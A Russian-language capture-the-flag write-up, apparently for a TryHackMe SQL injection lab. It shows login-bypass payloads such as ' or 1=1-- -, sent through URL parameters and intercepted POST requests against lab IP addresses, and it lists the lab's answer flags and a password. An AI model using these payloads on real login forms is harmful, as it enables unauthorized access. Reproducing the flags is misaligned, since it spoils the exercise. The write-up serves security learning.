 ### SQL -инъекция 3: URL-инъекция
В этом задании используется запрос GET при отправке формы входа, как показано здесь:

Вход в систему и проверку на стороне клиента можно легко обойти, перейдя непосредственно по этому URL-адресу:

http://10.10.162.127:5000/sesqli3/login?profileID=-1' или 1=1-- -&password=a

Браузер автоматически urlencode это для нас. Urlencode необходимо, так как протокол HTTP не поддерживает все символы 
в запросе. После urlencode URL выглядит следующим образом: 

http://10.10.162.127:5000 /sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a

%27 становится символом одинарной кавычки ('), а %20 становится пробелом.

### SQL- инъекция 4: POST-инъекция
При отправке формы входа для этого вызова используется метод HTTP POST. Можно либо удалить/отключить JavaScript, 
проверяющий форму входа, либо отправить действительный запрос и перехватить его с помощью прокси-инструмента, такого 
как Burp Suite, и изменить его:  


Информацию о том, как работает Burp Suite, можно найти на   странице Burp Suite  .

#### Ответить на вопросы ниже
```commandline
# task 2
# http://10.10.255.151:5000/

http://10.10.255.151:5000/sesqli1/login?next=http%3A%2F%2F10.10.74.12%3A5000%2Fsesqli1%2Fhome
profileID: 1 or 1=1-- -
THM{dccea429d73d4a6b4f117ac64724f460}

http://10.10.255.151:5000/sesqli2/login?next=http%3A%2F%2F10.10.74.12%3A5000%2Fsesqli2%2Fhome
profileID: 1' or '1'='1'-- -
THM{356e9de6016b9ac34e02df99a5f755ba}

http://10.10.255.151:5000/sesqli3/login?next=http%3A%2F%2F10.10.74.12%3A5000%2Fsesqli3%2Fhome
in url
http://10.10.255.151:5000/sesqli3/login?profileID=1%27%20or%201=1%20--%20-&password=pass
THM{645eab5d34f81981f5705de54e8a9c36}

http://10.10.255.151:5000/sesqli4/login?next=http%3A%2F%2F10.10.74.12%3A5000%2Fsesqli4%2Fhome
burp
profileID=admin' or 1=1 -- -&password=pass
THM{727334fd0f0ea1b836a8d443f09dc8eb}

http://10.10.255.151:5000/sesqli5/login?next=http%3A%2F%2F10.10.74.12%3A5000%2Fsesqli5%2Fhome
profileID: 10
password: toor
```
Что такое флаг для SQL-инъекции 1: поле ввода не является строкой?
```commandline
THM{dccea429d73d4a6b4f117ac64724f460}
```
Что такое флаг для SQL-инъекции 2: строка поля ввода?
```commandline
THM{356e9de6016b9ac34e02df99a5f755ba}
```
Что такое флаг SQL-инъекции 3: URL-инъекция?
```commandline
THM{645eab5d34f81981f5705de54e8a9c36}
```
Что такое флаг для SQL-инъекции 4: POST-инъекция?
```commandline
THM{727334fd0f0ea1b836a8d443f09dc8eb}
```